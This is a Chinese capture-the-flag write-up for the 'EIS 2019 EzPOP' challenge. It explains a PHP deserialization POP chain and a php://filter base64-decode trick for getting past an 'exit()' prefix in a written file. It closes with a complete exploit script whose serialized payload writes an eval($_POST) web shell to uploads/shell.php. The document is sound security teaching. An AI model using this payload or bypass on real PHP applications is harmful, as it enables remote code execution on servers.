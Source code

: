 # \[EIS 2019]EzPOP

## \[EIS 2019]EzPOP

## 考点

* php://filter/write绕过“死亡exit”

## wp

给了源码，返回头看到PHP版本7.3。其实这里不给源码也可以做，用`arjun`可以探测参数，存在参数`src`，传入就可以看到源码了。

![](<../../.gitbook/assets/image (33) (1) (1) (1).png>)

给了源码，一点一点看。首先定义两个类，然后GET的src参数，上传目录`uploads/`，最后反序列化`data`

![](<../../.gitbook/assets/image (20) (1).png>)

确定是反序列化，然后找`__destruct()`作为入口，可以锁定`class A`，然后`$this->autosave`为`false`，然后不断向上调用

![](<../../.gitbook/assets/image (11) (1).png>)

`getForStorage()`那一大块可以写成一段代码，这段代码意思举个例子解释，比如`array("0"=>array("path"=>"a"))`，处理之后就是`array("0"=>"a")`，感觉有点多此一举。再json\_encode一下，变成一个字符串。在`getForStorage()`后执行的是 `$this->store->set()`，由此跳转到`class B`

```php
    function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
  $cache = array("0"=>array("path"=>"a"));
  $cleaned = cleanContents($cache);
  var_dump(json_encode([$cleaned, "2"]));
```

到这可以先写一下Ａ类的序列化

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'tmp1';
      $this->expire= 'tmp2';
      $this->store= $store;
    }
}
$b = new B();
$a = new A($b);
$a->cache = array("tmp3");
$a->complete = "tmp4";
```

然后看`class B`的set函数，接收的三个参数分别是`$name`，`$value`，`$expire`，分别与`$a->key`，`json_encode([$a->cache, "2"])`，`$a->expire`相关联。然后把`$expire`转化为整型，用`$this->options['prefix']`拼接`$name`，处理`$filename`，这里感觉也没啥用，对`$filename`和`$expire`处不处理并没有多大影响，更像是从哪个项目里复制出来的。

![](<../../.gitbook/assets/image (12).png>)

然后看一下`$value`的处理，它的值应该是类似于这种`[[{"path":"a"}],2]`，或者是这种`[["a"],2]`，把它作为参数传给`$this->serialize()`，在这个函数里面可以执行任意函数，但是没有函数的参数是像`$value`那种，所以这里最好是保持空过，`$serialize`就可以是`trim`或者`strval`之类的函数

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

接着往后看，这里的if是是否进行数据压缩，`$this->options['data_compress']`置为false，跳过这一步。`sprintf('%012d', $expire)`是把`$expire`左补齐12位，如果`$expire`是11，那么这个结果就是`000000000011`。再看这两行行，就是典型的php://filter的妙用，绕过“死亡exit”。`$data`为要写入的shell，`$filename`为`php://filter/write=convert.base64-decode/resource=shell.php`

```php
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            $data = gzcompress($data, 3);
        }
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return true;
        }
        return false;
```

在`$data =` 那一行中，可以被base64识别的是`php000000000011exit`这19个字符，要在shell中补字符直到总长度符合base64解码规范

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$a->complete = 2;
```

如果这样生成代码，得到的value是`[["PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"],2]`，前面是21个字符，中间补3个，后面补3个，最后cache是`array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa")`

完整代码

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

![](<../../.gitbook/assets/image (32) (1) (1).png>)

## 小结

1. [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
2. [\[2020 新春红包题\]1](../php-zong-he/2020-xin-chun-hong-bao-ti-1.md)是它的增强版
